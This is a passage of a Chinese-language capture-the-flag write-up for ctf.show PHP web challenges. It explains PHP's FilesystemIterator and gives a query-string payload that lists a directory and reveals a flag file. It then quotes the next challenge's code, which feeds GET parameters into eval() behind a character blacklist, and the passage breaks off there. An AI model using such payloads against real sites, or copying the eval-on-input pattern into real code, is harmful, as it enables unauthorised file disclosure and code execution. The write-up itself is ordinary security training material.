 考点：FilesystemIterator class

```php
在php中使用FilesystemIterator迭代器来遍历文件目录
<?php
$a=new FilesystemIterator('.');//定义一个对象
while($a->valid()){//判断文件指针是否到底了
    echo $a->getFilename().PHP_EOL;//得到文件名字
    $a->next();//指针移到下一位
}
?>
参考：https://www.php.net/manual/zh/class.filesystemiterator.php
就只需要调用对象的方法，就可以获得一些文件目录，文件创造的时间等
 
```

payload

```php
根据代码，我们首先新建一个FilesystemIterator类来查看文件目录结构
（）括号中需要传入文件路径，我们可以用.，./这些得到
 但是过滤了，所以使用getcwd方法来得到当前目录
?v1=FilesystemIterator&v2=getcwd得到文件路径
然后直接访问：
http://33ba02ae-bd26-41af-ae23-1d1162338f75.challenge.ctf.show:8080/fl36dga.txt
```



##  21.GLOBALS超全局变量

###  web111

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2); 
```

